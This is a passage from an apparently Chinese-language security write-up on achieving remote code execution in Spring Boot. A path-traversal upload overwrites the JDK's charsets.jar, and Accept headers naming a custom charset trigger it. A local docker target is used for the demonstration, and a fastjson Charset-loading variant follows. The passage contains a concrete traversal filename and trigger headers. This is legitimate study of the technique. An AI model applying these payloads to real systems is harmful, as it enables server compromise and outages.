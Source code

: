 ```java
    }


}

```

打包的charsets.jar挂在github

https://github.com/LandGrey/spring-boot-upload-file-lead-to-rce-tricks/blob/main/release/charsets.jar

搭个靶机：

```shell
docker pull landgrey/spring-boot-fat-jar-write-file-rce:1.2
docker run -p --rm 18081:18081 landgrey/spring-boot-fat-jar-write-file-rce:1.2 
```

>启动容器时使用 `--rm` 参数，退出时自动删除docker。不然不能重复打，因为charsets.jar只会加载一遍

上传charsets.jar，抓个包，filename改为`../../usr/lib/jvm/java-1.8-openjdk/jre/lib/charsets.jar`

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241218213450213.png)

然后Accept改为任意一个payload访问任意一个路由

```http
Accept: multipart/form-data;charset=IBM33722;
Accept: text/html;charset=IBM33722;
```

写进了charsets_test_random.log代表成功

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241218213528015.png)

但很明显，业务会被直接打崩，不利于隐蔽：

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241218213656816.png)

除此以外，作者还给出了其他5个场景去触发加载charset，适合于不在原生spring场景的去触发加载charset



## Trick2：fastjson写文件+setter触发

无需spring场景，需要fastjson>=1.2.68

ParserConfig声明了fastjson的白名单，可以看到Charset类用MiscCodec反序列化器去处理

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241219095316623.png)

MiscCodec是老朋友了，直接看到deserialze方法，如果clazz是Charset.class的话，会调用Charset.forName

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20241219095617213.png)

fastjson写文件就不测了，搭配commons-io或者JDK11原生写都可以

